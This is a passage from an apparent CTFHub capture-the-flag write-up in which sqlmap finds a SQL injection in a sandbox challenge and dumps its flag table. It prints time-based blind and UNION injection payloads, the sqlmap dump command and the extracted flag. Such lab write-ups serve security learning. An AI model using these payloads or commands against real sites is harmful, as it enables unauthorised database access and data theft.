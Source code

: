 ```shell
    Payload: id=1 AND (SELECT 3202 FROM (SELECT(SLEEP(5)))YRbQ)

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: id=-2937 UNION ALL SELECT NULL,CONCAT(0x7176707071,0x6b6351537465477779424469434c4e4669796c6670694d4f504472585a737959596344736a4d794e,0x716b6a7a71)-- -
---
[15:52:41] [INFO] the back-end DBMS is MySQL
web application technology: PHP 7.3.14, OpenResty 1.19.3.2
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[15:52:41] [INFO] fetching columns for table 'flag' in database 'sqli'
[15:52:41] [WARNING] reflective value(s) found and filtering out
Database: sqli
Table: flag
[1 column]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| flag   | varchar(100) |
+--------+--------------+

[15:52:41] [INFO] fetched data logged to text files under '/Users/xuyi/.local/share/sqlmap/output/challenge-7cd002cfce0bb7e2.sandbox.ctfhub.com'
```

### （4）内容 `--dump`

```shell
(venv) ➜  sqlmap git:(master) python sqlmap.py "http://challenge-7cd002cfce0bb7e2.sandbox.ctfhub.com:10800/?id=1" -D sqli -T flag -C flag --dump
 
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:55:57 /2023-08-25/

[15:55:58] [INFO] resuming back-end DBMS 'mysql' 
[15:55:58] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 3202 FROM (SELECT(SLEEP(5)))YRbQ)

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: id=-2937 UNION ALL SELECT NULL,CONCAT(0x7176707071,0x6b6351537465477779424469434c4e4669796c6670694d4f504472585a737959596344736a4d794e,0x716b6a7a71)-- -
---
[15:55:58] [INFO] the back-end DBMS is MySQL
web application technology: PHP 7.3.14, OpenResty 1.19.3.2
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[15:55:58] [INFO] fetching entries of column(s) 'flag' for table 'flag' in database 'sqli'
[15:55:58] [WARNING] reflective value(s) found and filtering out
Database: sqli
Table: flag
[1 entry]
+----------------------------------+
| flag                             |
+----------------------------------+
| ctfhub{2d1aecc0c65962091944063b} |
```